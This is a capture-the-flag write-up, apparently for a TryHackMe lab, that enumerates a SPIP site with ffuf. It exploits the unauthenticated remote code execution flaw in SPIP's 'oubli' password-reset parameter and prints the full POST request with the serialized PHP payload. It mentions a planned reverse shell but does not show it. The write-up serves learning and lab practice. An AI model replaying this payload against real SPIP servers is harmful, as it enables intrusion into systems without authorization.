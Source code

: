 The /images/ directory gave directory listing but nothing very interesting.

Running ffuf indicated existence of a /spip/ directory.

```
❯ ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt:FUZZ -u http://10.10.207.110/FUZZ -t 100

images                  [Status: 301, Size: 315, Words: 20, Lines: 10, Duration: 6073ms]
spip                    [Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 521ms]
```

Navigating to that and snooping around eventually got me to some spip login page and revealed the version of spip to be v2.4.0 as seen in HTTP headers and the `http://10.10.207.110/spip/local/config.txt` page. 

I searched or vulnerabilities regarding spip v2.4.0 and found the following detailing an unauthenticated RCE vulnerability exploiting poor implementation and input validation in the `oubli` parameter in the forgot-password functionality at `http://10.10.207.110/spip/spip.php?page=spip_pass&lang=en`:
https://www.exploit-db.com/exploits/50383
https://github.com/nuts7/CVE-2023-27372

---
## **Exploitation**

We can check for a PoC for this vulnerability using the following request where if successful the `phpinfo()` page is displayed :

```
POST /spip/spip.php?page=spip_pass&lang=en HTTP/1.1
Host: 10.10.207.110
Content-Length: 261
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://10.10.207.110
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.86 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.10.207.110/spip/spip.php?page=spip_pass&lang=en
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

page=spip_pass&lang=en&formulaire_action=oubli&formulaire_action_args=AKWms4U6q36PZ5anxAntOw96PbQ5RFxIFrvJYArFdIBdXpBrKWZ37WWgXOTXQ0A7YhaGg63PB3rY%2FwwNM0PLZgyIWBTRpmyAMQ%3D%3D&formulaire_action_sign=&oubli=abc%40xyz.com&oubli=s:19:"<?php phpinfo(); ?>";&nobot=
```

Its successful and hence we can go ahead and construct a payload to give me a reverse shell similar to the process seen in the THM [[Cheese]] room wherein I used https://revshells.com to generate a base64 encoded Bash -i revshell command and then constructed the payload.

